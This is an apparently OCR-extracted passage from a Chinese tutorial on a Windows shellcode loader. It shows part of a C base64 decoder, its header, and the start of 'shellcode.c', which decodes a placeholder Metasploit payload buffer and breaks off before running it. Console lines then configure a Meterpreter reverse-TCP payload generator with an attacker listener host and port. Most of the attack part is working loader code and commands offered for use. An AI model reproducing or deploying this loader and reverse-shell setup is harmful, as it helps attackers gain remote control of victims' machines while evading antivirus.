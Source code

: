```c
    int g = 3;

    while (indata[x] != 0) {
        // 需要解码的数据对应的ASCII值对应base64_suffix_map的值
        c = base64_suffix_map[indata[x++]];
        if (c == 255) return -1;// 对应的值不在转码表中
        if (c == 253) continue;// 对应的值是换行或者回车
        if (c == 254) { c = 0; g--; }// 对应的值是'='
        t = (t << 6) | c; // 将其依次放入一个int型中占3字节
        if (++y == 4) {
            outdata[i++] = (unsigned char)((t >> 16) & 0xff);
            if (g > 1) outdata[i++] = (unsigned char)((t >> 8) & 0xff);
            if (g > 2) outdata[i++] = (unsigned char)(t & 0xff);
            y = t = 0;
        }
    }

    return ret;
}
```

`base64.h`文件内容：

```c
#ifndef base64_h
#define base64_h

#include <stdio.h>

#if __cplusplus
extern "C" {
#endif

    int base64_encode(const char *indata, int inlen, char *outdata, int *outlen);
    int base64_decode(const char *indata, int inlen, char *outdata);

#if __cplusplus
}
#endif

#endif /* base64_h */
```

`shellcode.c`文件内容：

```c
#include <stdio.h>
#include <string.h>
#include <Windows.h>

#include "base64.h"

unsigned char buf[] =
"msf base64 code";

int main(int argc, const char * argv[]) {


    char str3[1000] = { 0 };

    // 原po代码报错，这里做了一些强制转换和类型修正
    base64_decode(buf, (int)strlen(buf), str3);

    char *Memory;

```

[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate